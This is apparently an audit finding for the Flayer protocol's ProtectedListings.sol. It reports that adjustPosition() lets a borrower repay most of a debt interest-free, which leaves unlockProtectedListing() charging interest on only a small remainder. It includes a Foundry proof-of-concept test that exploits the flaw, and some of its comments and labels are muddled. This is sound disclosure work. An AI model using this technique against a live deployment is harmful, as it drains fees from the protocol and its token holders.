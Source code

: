 Curved Rusty Parrot

Medium

# User can pay almost no interest if he first pays most of the debt through ProtectedListings.sol#adjustPosition()

### Summary

When you've created a protected listing, the token you've taken against is debt and **accrues interest over time**.
You can use the `adjustPosition()` to repay most of the debt and then unlock it via `unlockProtectedListing()`, the latter actually gives it back and calculates interest, but it calculates it on the `tokenTaken` property, which can be repaid to a big extent (almost 100%) without interest in `adjustPosition()`.

### Root Cause

This logic accounts for interest/fee in unlockProtectedListing(), but it is missing in adjustPosition() -> https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L303-L305

# The logic that's present in unlockProtectedListing(), but missing in adjustPosition

``` solidity
uint fee = unlockPrice(_collection, _tokenId) * 10 ** denomination;
collectionToken.burnFrom(msg.sender, fee);

### Internal pre-conditions

User needs to have a protected listing with token taken against the listing.


### External pre-conditions

_No response_

### Attack Path

Steps:
1. User A decides to lock his NFT and **create a protected listing** in return for collection tokens.
2. Those collection tokens are **basically debt and debt accrues interest** over time.
3. User A can repay **>95% of the debt interest free** in `adjustPosition()` first,
 and then pay interest only on the remaining `tokenTaken` value in `unlockProtectedListing()`, 
 to unlock his NFT,  with the interest being **times and times less interest** than intended

### Impact

The protocol will **burn less fees** (potentially tens of times or more) which in the long run may make the `collectionToken` less valuable due to dilution


### PoC

# POC is running in ProtectedListings.t.sol
``` solidity
function test_CanAvoidInterestWhenPayingPartially(address payable _owner, uint _tokenId) public {
       // POC in steps
       // 1. User A locks his protected listings for tokens
       // 2. User A accrues interest as apparent in the docs and unlockProtectedListing()
       // 3. User A decides to bypass this and pay >95% of his debt in the adjustPosition()
       // because in this function there's no accounting for the interest as in the unlockProtectedListing()
       // 4. User A can pay >95% his debt interest fee in adjustPosition() and only invoke 
       // unlockProtectedListing() to pay the last <5% of the debt and the interest will be applied
       // to this value (<5%), not on the initial taken, which is a serious issue because the interest will be
       // applied on a very small value

        _assumeValidTokenId(_tokenId);

        _assumeValidAddress(_owner);

        erc721a.mint(_owner, _tokenId);

        vm.prank(_owner);
        erc721a.approve(address(protectedListings), _tokenId);

        IProtectedListings.ProtectedListing memory listing = IProtectedListings.ProtectedListing({
            owner: _owner,
            tokenTaken: 0.65 ether,
            checkpoint: 0
        });

         // Create our listing
        vm.startPrank(_owner);
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: listing
            })
        });

        vm.stopPrank();

        vm.warp(block.timestamp + 5 days);
        
        vm.startPrank(address(listings));
        
        protectedListings.createCheckpoint(address(erc721a));

        vm.stopPrank();
        vm.startPrank(_owner);
        
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), 0.625 ether);
        // 0.65 ether
        console.log(locker.collectionToken(address(erc721a)).balanceOf(_owner));

        // repaying debt
        protectedListings.adjustPosition(address(erc721a), _tokenId, -0.625 ether);
        // 0.025 ether and interest on the 0.025 ether
        uint unlockPriceBefore = protectedListings.unlockPrice(address(erc721a), _tokenId);

        // taking debt
        protectedListings.adjustPosition(address(erc721a), _tokenId, 0.625 ether);
        // 0.65 ether and interest on the 0.65 ether
        uint unlockPriceAfter = protectedListings.unlockPrice(address(erc721a), _tokenId);

        // 0.65 ether
        console.log(locker.collectionToken(address(erc721a)).balanceOf(_owner));
        
        // We can see a smaller price due to less interest,
        // for unlocking the NFT is we have paid 0.625 ether partially
               
        // Feel free to log the data, the interest accrued in the unlockPriceBefore 
        // is >x20 times than the interest in unlockPriceAfter (interest -> the value above 0.65 ether)

        // So the fee will be times and times less than if I try to pay it all on one go
        assertNotEq(unlockPriceBefore + 0.625 ether, unlockPriceAfter);
    }

### Mitigation

Account for interest/fee in `adjustPosition()` as well
